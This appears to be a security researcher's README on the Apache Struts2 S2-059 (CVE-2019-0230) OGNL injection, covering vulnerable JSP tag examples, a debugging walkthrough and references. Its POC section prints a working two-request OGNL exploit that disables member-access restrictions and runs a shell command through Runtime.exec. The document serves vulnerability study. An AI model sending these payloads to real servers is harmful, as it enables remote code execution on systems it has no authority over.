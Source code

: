# S2-059 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution vulnerability                 |
| Maximum security rating | Important                                                    |
| Recommendation          | Always validate incoming parameters' values when re-assigning them to certain Struts' tags attributes.[Don't use %{...} or ${...} syntax referencing user modifiable input in tag attributes](https://struts.apache.org/security/#use-struts-tags-instead-of-raw-el-expressions) other than *value* unless you have a valid use-case.Consider activating [Proactive OGNL Expression Injection Protection](https://struts.apache.org/security/#proactively-protect-from-ognl-expression-injections-attacks-if-easily-applicable) if applicableAlternatively upgrade to [Struts 2.5.22](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.22) or greater |
| Affected Software       | Struts 2.0.0 - Struts 2.5.20                                 |
| Reporters               | Matthias Kaiser, Apple Information Security                  |
| CVE Identifier          | CVE-2019-0230                                                |

## Problem

Struts2 会对某些标签属性（比如`id`，其他属性有待寻找）的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。（引用自：[Struts2 S2-059 漏洞分析](https://mp.weixin.qq.com/s/VyLiLrUV0yakh_lzTBYGyQ)）

受影响的标签有很多，这里列举三个，分别是`<a>`、`<label>`、`<input>`（参考官方demo改写）：

```jsp
  a标签： <s:url var="url" action="index"/><s:a id="%{skillName}" href="%{url}">List available Employees</s:a><br/>
  label标签:  <s:label id="%{skillName}" value="label test"/><br/><br/>

  <s:form action="index" method="POST">
    <s:textfield name="skillName" label="skillName" id="%{skillName}"/>
    <s:textfield name="url" label="url" id="%{url}"/>
    <s:submit value="Submit"/>
  </s:form>
```

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

同时提交skillName和url两个参数，发现只有skillName受影响，也就是id属性存在漏洞，href属性不受影响（原因见Debug），并且`<s:a>`、`<s:label>`、`<s:textfield>`标签均受影响。

![image-20200818151914374](img/image-20200817162943531.png)

可以说如果用了`id="%{xxx}"`这个写法的基本上都在劫难逃了。。

补充 [exp](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059)（需url编码，分两次请求）：

```java
%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}
```

## Debug

参考链接中两位师傅的调试文章都不错，我就不再重复写了。在这里记录下漏洞的细节和一些思考。

1. 开始解析jsp标签的`doStartTag()`方法：`s2-059/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:29`，在这里下断点。

2. 第一次ognl解析

   `s2-059/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/views/jsp/ui/AbstractUITag.class:107`

   ```java
   protected void populateParams() {
           super.populateParams();
           UIBean uiBean = (UIBean)this.component;
           ...
           uiBean.setLabel(this.label);
           uiBean.setName(this.name);
           uiBean.setValue(this.value);
           uiBean.setKey(this.key);
           uiBean.setId(this.id); 
       }
   ```

   findString()方法执行了一次ognl表达式，将%{skillName}替换为了skillName的值%{11*11}。

   ![image-20200818190032687](img/image-20200817185618442.png)

3. 第二次ognl解析

   `s2-059/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/components/UIBean.class:356`

   ```java
   protected void populateComponentHtmlId(Form form) {
       String tryId;
       if (this.id != null) {
           tryId = this.findStringIfAltSyntax(this.id);
       } else {
           ...
       }
   }
   ```

   findStringIfAltSyntax()调用了findString()，最终执行了第二次ognl表达式。

4. 受影响的标签

   继承AbstractUITag类的标签都会受到影响。当这些标签存在id属性时，会调用父类AbstractUITag.populateParams()方法，触发setId()解析一次ognl表达式。

5. 受影响的属性

   虽然`org.apache.struts2.components.UIBean#evaluateParams`方法中有很多属性使用findString()来获取值。但是除了id可以解析两次ognl外（算上前面的setId解析了一次），这些属性都仅解析了一次。例如同时name和id属性都存在有漏洞的写法：`<s:textfield name="%{skillName}" label="skillName" id="%{skillName}"/>`，传入`skillName=%{11*11}`，最后id解析出来是121，而name则是`%{11*11}`。所以应该只有id了吧。。（这一点也与天融信实验室的文章观点一致）

## Reference

- [S2-059](https://cwiki.apache.org/confluence/display/WW/S2-059)
- [Struts2 S2-059 漏洞分析](https://mp.weixin.qq.com/s/VyLiLrUV0yakh_lzTBYGyQ)
- [CVE-2019-0230 s2-059 漏洞分析](https://www.cnblogs.com/ph4nt0mer/p/13512599.html)
- [Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059)

